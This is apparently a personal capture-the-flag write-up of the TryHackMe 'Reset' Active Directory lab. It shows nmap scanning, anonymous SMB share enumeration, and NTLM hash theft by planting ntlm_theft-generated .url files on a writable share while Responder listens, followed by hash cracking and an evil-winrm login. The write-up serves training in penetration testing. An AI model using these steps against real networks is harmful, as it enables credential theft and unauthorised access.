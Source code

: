 ```yaml
---
title: "Reset TryHackMe"
tags:
    - machine
    - THM
    - Active Directory
date: "2024-09-16"
thumbnail: "/assets/img/thumbnail/reset.jpeg"
bookmark: true
---
```

# Description
---
This challenge simulates a cyber-attack scenario where you must exploit an Active Directory environment
Test your penetration skills, bypass security measures, and infiltrate into the system. Will you emerge victorious as you simulate the ultimate organization APT?

Find all the flags!

# enumeration
## Namp Scan
```bash
 ─(mostafa㉿mostafa)-[~]
└─$ nmap -sC -sV -A  10.10.81.57 -T4 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-17 19:20 EEST
Nmap scan report for 10.10.81.57
Host is up (0.080s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-18 16:20:31Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.corp0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.corp0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```
we have many open ports 
first thing came in my mind -> enumerate `smb` using `crackmapexec` it accept anonymous login 
```bash
─(mostafa㉿mostafa)-[~]
└─$ crackmapexec smb 10.10.130.125 -u 'guest' -p '' --shares
SMB         10.10.130.125   445    HAYSTACK         [*] Windows 10.0 Build 17763 x64 (name:HAYSTACK) (domain:thm.corp) (signing:True) (SMBv1:False)
SMB         10.10.130.125   445    HAYSTACK         [+] thm.corp\guest:
SMB         10.10.130.125   445    HAYSTACK         [+] Enumerated shares
SMB         10.10.130.125   445    HAYSTACK         Share           Permissions     Remark
SMB         10.10.130.125   445    HAYSTACK         -----           -----------     ------
SMB         10.10.130.125   445    HAYSTACK         ADMIN$                          Remote Admin
SMB         10.10.130.125   445    HAYSTACK         C$                              Default share
SMB         10.10.130.125   445    HAYSTACK         Data            READ,WRITE
SMB         10.10.130.125   445    HAYSTACK         IPC$            READ            Remote IPC
SMB         10.10.130.125   445    HAYSTACK         NETLOGON                        Logon server share
SMB         10.10.130.125   445    HAYSTACK         SYSVOL                          Logon server share
```
we have READ permission to `IPC$` 
and READ, WRITE permission to `DATA` 

let’s use `smbclient` to connect
```bash
┌──(kali㉿kali)-[~]
└─$ smbclient -U 'anonymous'%''  '\\10.10.130.125\Data'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Sep 20 15:52:37 2024
  ..                                  D        0  Fri Sep 20 15:52:37 2024
  onboarding                          D        0  Fri Sep 20 16:04:04 2024

                7863807 blocks of size 4096. 3023349 blocks available
smb: \> dir onboarding\
  .                                   D        0  Fri Sep 20 16:04:04 2024
  ..                                  D        0  Fri Sep 20 16:04:04 2024
  b2qknq13.dmg.txt                    A      521  Mon Aug 21 21:21:59 2023
  deiifnya.c2y.pdf                    A  4700896  Mon Jul 17 11:11:53 2023
  rt4rwinz.ime.pdf                    A  3032659  Mon Jul 17 11:12:09 2023

                7863807 blocks of size 4096. 3024293 blocks available
smb: \> dir onboarding\
  .                                   D        0  Fri Sep 20 16:04:34 2024
  ..                                  D        0  Fri Sep 20 16:04:34 2024
  2pccqfr0.saa.pdf                    A  3032659  Mon Jul 17 11:12:09 2023
  mgbfgjaz.shd.txt                    A      521  Mon Aug 21 21:21:59 2023
  xxmw2z0m.cbj.pdf                    A  4700896  Mon Jul 17 11:11:53 2023

                7863807 blocks of size 4096. 3024293 blocks available
```
the file name changing every time 
I notice that I can do activity in the share,so i can put file that allows us to steal user's hash

# Steal NTLM Creds
i found this tip on `hacktricks`
<img src="/assets/img/reset/1.png">
 i ask chatgpt how to do this and here the steps to steal the user hash

1. run `Responder` to listen on your network for SMB authentication requests  
```bash
$ sudo responder -I my_ip(tun0)
```
2. Craft the `.URL` File it triggers an NTLM authentication attempt
3. Place the `.URL` File on a Network Share
4. Capture the NTLM Hash
5. crack it
## Ntlm_theft
and i serached for a tool to do all of this and i found `ntlm_theft` on github
[https://github.com/Greenwolf/ntlm_theft]
```bash
┌──(mostafa㉿mostafa)-[~]
└─$ python3 ntlm_theft.py -g url -s 10.10.130.125 -f hash1
Created: hash1/hash1-(url).url (BROWSE TO FOLDER)
Created: hash1/hash1-(icon).url (BROWSE TO FOLDER)
Generation Complete.
```
now let's upload the `.url` file
<img src="/assets/img/reset/2.png">
i got the hash on responder
<img src="/assets/img/reset/3.png">
save the hash on file and let’s crack it 
<img src="/assets/img/reset/4.png">

## evil-winrm
now we have credentials for `Automate` we can use `evil-winrm` to get a shell and read the user flag
<img src="/assets/img/reset/5.png">
GG i got the user flag ...:)
